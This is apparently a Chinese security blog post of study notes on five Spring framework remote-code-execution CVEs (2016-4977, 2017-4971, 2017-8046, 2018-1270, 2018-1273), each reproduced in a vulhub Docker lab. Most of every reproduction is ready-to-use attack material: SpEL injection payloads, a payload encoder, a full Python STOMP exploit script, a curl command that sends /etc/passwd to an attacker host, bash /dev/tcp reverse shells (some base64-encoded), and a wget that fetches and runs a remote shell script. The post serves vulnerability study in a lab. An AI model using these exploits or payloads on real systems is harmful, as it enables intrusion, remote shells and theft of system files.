


干货｜Java Spring安全学习笔记
简介
Spring的英文翻译为春天，可以说是给Java程序员带来了春天，因为它极大的简化了开发。得出一个公式：Spring = 春天 = Java程序员的春天 = 简化开发。最后的简化开发正是Spring框架带来的最大好处。
Spring是一个开放源代码的设计层面框架，它是于2003 年兴起的一个轻量级的Java 开发框架。由Rod Johnson创建，其前身为Interface21框架，后改为了Spring并且正式发布。Spring是为了解决企业应用开发的复杂性而创建的。它解决的是业务逻辑层和其他各层的松耦合问题，因此它将面向接口的编程思想贯穿整个系统应用。框架的主要优势之一就是其分层架构，分层架构允许使用者选择使用哪一个组件，同时为 J2EE 应用程序开发提供集成的框架。Spring使用基本的JavaBean来完成以前只可能由EJB完成的事情。然而，Spring的用途不仅限于服务器端的开发。从简单性、可测试性和松耦合的角度而言，任何Java应用都可以从Spring中受益。简单来说，Spring是一个分层的JavaSE/EE full-stack(一站式) 轻量级开源框架。Spring 的理念：不去重新发明轮子。其核心是控制反转（IOC）和面向切面（AOP）。
Spring框架包含的功能大约由20个小模块组成。这些模块按组可分为核心容器(Core Container)、数据访问/集成(Data Access/Integration)、Web、面向切面编程(AOP和Aspects)、设备(Instrumentation)、消息(Messaging)和测试(Test)。如下图所示：

漏洞环境搭建
这里我为了方便，使用的是vulhub搭建docker进行漏洞复现
首先安装curl和docker
sudo apt install curlsudo apt install docker.iodocker -v //查看是否安装成功
然后安装python和pip环境，命令如下
sudo apt install pythoncurl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.pysudo python get-pip.pypip -V //查看是否安装成功
然后再安装docker-compose
pip install docker-composesudo apt install docker-composedocker-compose -v

到这个地方docker环境就已经搭建好了，这时候需要从github上把vulhub的漏洞环境给clone下来，这里直接clone网不太好，我就直接下载下来了copy到了靶机上
git clone https://github.com/vulhub/vulhub.git下载好之后进入spring漏洞环境，这里看到有5个CVE漏洞，我们一个一个来

cve-2016-4977
Spring Security OAuth RCE(cve-2016-4977)，是为Spring框架提供安全认证支持的一个模块，在7月5日其维护者发布了这样一个升级公告，主要说明在用户使用Whitelabel views来处理错误时，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。漏洞的发现者在10月13日公开了该漏洞的挖掘记录
影响版本
1.0.0-1.0.5、2.0.0-2.0.9
漏洞分析
这个漏洞的触发点也是对用户传的参数的递归解析，从而导致SpEL注入，可是两者的补丁方式大不相同。Springboot的修复方法是创建一个NonRecursive类，使解析函数不进行递归。而SpringSecurityOauth的修复方法则是在前缀${前生成一个六位的字符串，只有六位字符串与之相同才会对其作为表达式进行解析。然而如果请求足够多，这种补丁也是会失效的。
这里直接查看补丁情况

可以看到在第一次执行表达式之前程序将$替换成了由RandomValueStringGenerator().generate()生成的随机字符串，也就是${errorSummary} -> random{errorSummary}，但是这个替换不是递归的，所以${2334-1}并没有变。
然后创建了一个helper使程序取random{}中的内容作为表达式，这样就使得errorSummary被作为表达式执行了，而${2334-1}因为不符合random{}这个形式所以没有被当作表达式，从而也就没有办法被执行了。
不过这个Patch有一个缺点：RandomValueStringGenerator生成的字符串虽然内容随机，但长度固定为6，所以存在暴力破解的可能性。
漏洞复现
首先进入CVE-2016-4977的docker环境

访问url，输入admin/admin
http://192.168.1.10:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test
出现以下界面则存在漏洞

使用github上找到的poc对传入值进行处理
#!/usr/bin/env pythonmessage = input('Enter message to encode:')poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])for ch in message[1:]:poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)poc += ')}'print(poc)

这里我传入一个whoami，返回了一个payload

将这个payload拼接到之前的网址里面访问可以发现，这里返回了一个[java.lang.UNIXProcess@f2e3e13]，说明代码已经执行了
http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105)))}&client_id=acme&scope=openid&redirect_uri=http://test
这里使用curl发送一个请求即可得到回显得内容
curl 192.168.1.2:5555 -d "$(cat /etc/passwd)"
这里再使用nc监听尝试反弹shell

使用到bash反弹，这里需要绕过exec()变形
bash -i >& /dev/tcp/192.168.1.2/5555 0>&1使用http://www.jackson-t.ca/runtime-exec-payloads.html进行payload处理

将处理后的命令再放入poc.py

得到新的payload并拼接到网址里面
http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(85)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test然后再访问这个网站即可得到反弹shell

CVE-2017-4971
Spring Web Flow框架远程代码执行(CVE-2017-4971)漏洞，是由于Spring Web Flow的数据绑定问题带来的表达式注入，从而导致任意代码执行。
影响版本
2.4.0-2.4.4、Older unsupported versions are also affected
漏洞分析
view对象处理用户事件，会根据HTTP参数绑定相应的model

如果model没有设置BinderConfiguration, 则会调用addDefaultMappings函数

进一步查看addDefaultMappings函数，可以发现输入参数以fieldMarkerPrefix(“_”)开头，则会调用addEmptyValueMapping函数

若useSpringBeanBinding参数设置为false,则 expressionParser将设置为SpelExpressionParser对象的实例，而不是BeanWrapperExpressionParser对象的实例。当调用getValueType函数时，SpelExpressionParser对象将执行表达式，触发任意代码执行

漏洞复现
首先进入CVE-2017-4971的docker环境

点击登录

这里列出了一些登录账户，这里随便使用一个登录即可

登录之后显示如下界面

然后访问http://192.168.1.10:8080/hotels/1，点击`Book Hotel`

这里要把信用卡和名字都填一下，然后点击Proceed

进入如下页面，此处用bp抓包

bp抓包如下所示

这里构造一个bash反弹的payload
&_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.1.2/5555 0>%261")).start()=vulhub打开nc监听端口

把构造的payload放入抓到的包里发送

即可收到反弹shell

CVE-2017-8046
Spring-Data-REST-RCE(CVE-2017-8046)，Spring Data REST对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为spring的SPEL解析导致的RCE
影响版本
Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3 Spring Boot version < 2.0.0M4 Spring Data release trains < Kay-RC3
漏洞分析
这里直接从补丁分析，从官方的描述来看就是就是Spring-data-rest服务处理PATCH请求不当，导致任意表达式执行从而导致的RCE。首先来看下补丁，主要是evaluateValueFromTarget添加了一个校验方法verifyPath，对于不合规格的path直接报异常退出，主要是property.from(pathSource,type)实现，基本逻辑就是通过反射去验证该Field是否存在于bean中

漏洞复现
进入CVE-2017-8046的docker环境

访问http://192.168.1.10:8080/customers/1返回如下界面则存在漏洞

这里先对customers/1这个页面bp抓包，还是通过bash反弹，通过处理后得到命令
bash -i >& /dev/tcp/192.168.1.2/5555 0>&1bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
因为这里执行的代码被编码为十进制位于new java.lang.String(new byte[]{xxxxxx})中，所以需要对bash命令转成十进制编码
使用python进行编码处理，在python中转十进制的方法为",".join(map(str, (map(ord,"命令"))))
",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}"))))
得到十进制后放入bp包里面进行构造
[{ "op": "replace","path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,117,77,105,56,49,78,84,85,49,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname","value": "vulhub"}]
构造后如图所示

发包即可得到反弹shell

CVE-2018-1270
Spring Messaging 命令执行漏洞(CVE-2018-1270)，Spring框架中的 spring-messaging 模块提供了一种基于WebSocket的STOMP协议实现，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，攻击者可以通过构造恶意的消息来实现远程代码执行。
影响版本
Spring Framework 5.0 - 5.0.5 Spring Framework 4.3 - 4.3.15
漏洞分析
由expression，getValue，setValue造成的代码执行，造成这种命令执行是由Spring的SPEL表达式造成的

SPEL命令执行有两种方式，一是静态方法，二是new 对象
再看一下spring-boot-messaging实现中的代码
Expression expression = sub.getSelectorExpression();if (expression == null) {result.add(sessionId, subId);} else {if (context == null) {context = new StandardEvaluationContext(message);context.getPropertyAccessors().add(new DefaultSubscriptionRegistry.SimpMessageHeaderPropertyAccessor());}try {if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {result.add(sessionId, subId);}} catch (SpelEvaluationException var13) {if (this.logger.isDebugEnabled()) {this.logger.debug("Failed to evaluate selector: " + var13.getMessage());}} catch (Throwable var14) {this.logger.debug("Failed to evaluate selector", var14);}}
那么一是可以利用sub.getSelectorExpression()得到selector的表达式，二是利用Boolean.TRUE.equals(expression.getValue(context, Boolean.class))获取表达式的值，从而造成命令执行
漏洞复现
进入CVE-2018-1270的docker漏洞环境

访问http://192.168.1.10:8080/gs-guide-websocket

这里直接使用前辈们写好的exp，注意修改一下bash命令和靶机地址即可
#!/usr/bin/env python3import requestsimport randomimport stringimport timeimport threadingimport loggingimport sysimport jsonlogging.basicConfig(stream=sys.stdout, level=logging.INFO)def random_str(length):letters = string.ascii_lowercase + string.digitsreturn ''.join(random.choice(letters) for c in range(length))class SockJS(threading.Thread):def __init__(self, url, *args, **kwargs):super().__init__(*args, **kwargs)self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'self.daemon = Trueself.session = requests.session()self.session.headers = {'Referer': url,'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'}self.t = int(time.time()*1000)def run(self):url = f'{self.base}/htmlfile?c=_jp.vulhub'response = self.session.get(url, stream=True)for line in response.iter_lines():time.sleep(0.5)def send(self, command, headers, body=''):data = [command.upper(), '\n']data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))data.append('\n\n')data.append(body)data.append('\x00')data = json.dumps([''.join(data)])response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)if response.status_code != 204:logging.info(f"send '{command}' data error.")else:logging.info(f"send '{command}' data success.")def __del__(self):self.session.close()sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.start()time.sleep(1)sockjs.send('connect', {'accept-version': '1.1,1.0','heart-beat': '10000,10000'})sockjs.send('subscribe', {'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",'id': 'sub-0','destination': '/topic/greetings'})data = json.dumps({'name': 'vulhub'})sockjs.send('send', {'content-length': len(data),'destination': '/app/hello'}, data)
首先还是bash编码

修改exp中的靶机ip和反弹命令
sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.send('subscribe', {'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",
如图所示

运行poc.py即可得到反弹shell

CVE-2018-1273
Spring Data Commons远程命令执行(CVE-2018-1273)，当用户在项目中利用了Spring-data的相关web特性对用户的输入参数进行自动匹配的时候，会将用户提交的form表单的key值作为Spel的执行内容而产生漏洞
影响版本
Spring Data Commons 1.13 - 1.13.10 (Ingalls SR10) Spring Data REST 2.6 - 2.6.10 (Ingalls SR10) Spring Data Commons 2.0 to 2.0.5 (Kay SR5) Spring Data REST 3.0 - 3.0.5 (Kay SR5)
漏洞分析
这里直接看补丁进行分析，这是一个spel表达式注入漏洞。补丁的内容如下：

补丁大致就是将StandardEvaluationContext替代为SimpleEvaluationContext，由于StandardEvaluationContext权限过大，可以执行任意代码，会被恶意用户利用。
SimpleEvaluationContext的权限则小的多，只支持一些map结构，通用的jang.lang.Runtime,java.lang.ProcessBuilder都已经不再支持。
漏洞复现
首先进入CVE-2018-1273的docker环境

访问http://192.168.1.10:8080/users并用bp抓包

这里随便填一下Username跟Password

生成一个shell.sh文件
bash -i >& /dev/tcp/192.168.1.2/5555 0>&1用python起一个http服务，并构造payload下载shell.sh文件保存在/tmp/目录下，名称为1
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.1.2:8000/shell.sh")]=111&password=111&repeated=111&Password=111
nc打开端口监听再构造payload进行命令执行即可收到反弹shell
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/bash /tmp/1")]=111&password=111&repeated=111&Password=111


推荐阅读：
点赞，转发，在看
原创投稿作者：mathwizard